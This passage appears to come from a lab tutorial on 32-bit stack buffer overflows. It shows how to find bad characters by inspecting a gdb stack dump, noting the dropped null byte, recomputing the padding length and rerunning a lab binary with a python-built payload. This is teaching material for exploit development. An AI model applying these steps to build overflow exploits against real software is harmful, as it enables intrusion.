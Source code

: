 Here we recognize at which address our "`\x55`" begins. From here, we can go further down and look for the place where our `CHARS` start.

#### The Stack - CHARS

The Stack - CHARS

```shell-session
<SNIP>
0xffffd5aa:	0x55	0x55	0x55	0x55	0x55	0x55	0x55	0x55
0xffffd5b2:	0x55	0x55	0x55	0x55	0x55	0x55	0x55	0x55
0xffffd5ba:	0x55	0x55	0x55	0x55	0x55	0x01	0x02	0x03
												 # |---> CHARS begin

0xffffd5c2:	0x04	0x05	0x06	0x07	0x08	0x00	0x0b	0x0c
0xffffd5ca:	0x0d	0x0e	0x0f	0x10	0x11	0x12	0x13	0x14
0xffffd5d2:	0x15	0x16	0x17	0x18	0x19	0x1a	0x1b	0x1c
<SNIP>
```

We see where our "`\x55`" ends, and the `CHARS` variable begins. But if we look closely at it, we will see that it starts with "`\x01`" instead of "`\x00`". We have already seen the warning during the execution that the `null byte` in our input was ignored.

So we can note this character, remove it from our variable `CHARS` and adjust the number of our "`\x55`".

#### Notes

Notes

```shell-session
# Substract the number of removed characters
Buffer = "\x55" * (1040 - 255 - 4) = 781

# "\x00" removed: 256 - 1 = 255 bytes
 CHARS = "\x01\x02\x03...<SNIP>...\xfd\xfe\xff"
 
   EIP = "\x66" * 4
```

#### Send CHARS - Without Null Byte

Send CHARS - Without Null Byte

```shell-session
(gdb) run $(python -c 'print "\x55" * (1040 - 255 - 4) + "\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 255 - 4) + "\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')
Breakpoint 1, 0x56555551 in bowfunc ()
```
